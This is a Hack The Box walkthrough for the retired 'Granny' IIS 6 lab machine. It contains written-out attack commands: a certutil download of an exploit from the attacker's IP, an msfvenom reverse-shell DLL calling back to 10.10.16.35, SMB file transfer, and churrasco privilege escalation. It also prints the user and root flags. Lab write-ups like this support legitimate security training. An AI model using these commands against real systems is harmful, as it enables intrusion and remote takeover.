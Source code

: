 # Granny
- URL : https://app.hackthebox.eu/machines/14
- IP : 10.129.2.63

## Recon
- 觀察首頁
    - ![](https://i.imgur.com/sbQcIWf.png)
    - IIS 6
- nmap 掃 port 
    - `nmap -A -p80 10.129.2.63`
    - ![](https://i.imgur.com/yNZQlXN.png)
- 掃目錄
    - ![](https://i.imgur.com/CjmfC20.png)
- 發現一些奇怪的 dll
    - ![](https://i.imgur.com/yZGtChe.png)
    - http://10.129.2.63/_vti_inf.html
    - `FPAuthorScriptUrl="_vti_bin/_vti_aut/author.dll"`
    - `FPAdminScriptUrl="_vti_bin/_vti_adm/admin.dll"`
    - `TPScriptUrl="_vti_bin/owssvr.dll"`

## Exploit
- https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269
    - ![](https://i.imgur.com/EOeoMgt.png)
- nc 收 shell
    - ![](https://i.imgur.com/7HqJyNX.png)
- 確認使用者
    - ![](https://i.imgur.com/X8v5anL.png)
- systeminfo
    - ![](https://i.imgur.com/9WVQAXz.png)
- 送 `windows-exploit-suggester.py`
    - ![](https://i.imgur.com/xLOYh1g.png)
- 測 CVE-2015-1701
    - https://github.com/hfiref0x/CVE-2015-1701
    - `certutil -urlcache -f http://10.10.16.35/Taihou32.exe Taihou32.exe`
    - ![](https://i.imgur.com/60L0w3I.png)
    - ![](https://i.imgur.com/KXnF3bF.png)
    - `impacket-smbserver meow .`
    - `copy \\10.10.16.35\meow\Taihou32.exe Taihou32.exe`
    - shell 卡住不能用 QQQ

## 提權
- 準備 shell
    - `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.35 LPORT=7878 -f dll > s.dll`
    - `rundll32 s.dll`
- `churrasco`
    - ![](https://i.imgur.com/3TwWxzC.png)
    - churrasco.exe -d "shellx86.exe"
- nc 收 shell
    - ![](https://i.imgur.com/xFp3xBs.png)
- User flag
    - ![](https://i.imgur.com/fdfbgPb.png)
    - `700c5dc163014e22b3e408f8703f67d1`
- Root Flag
    - ![](https://i.imgur.com/5QkzuUu.png)
    - `aa4beed1c0584445ab463a6747bd06e9`
## 學到ㄌ
- smb 傳檔案
- 盡量 webshell QQ
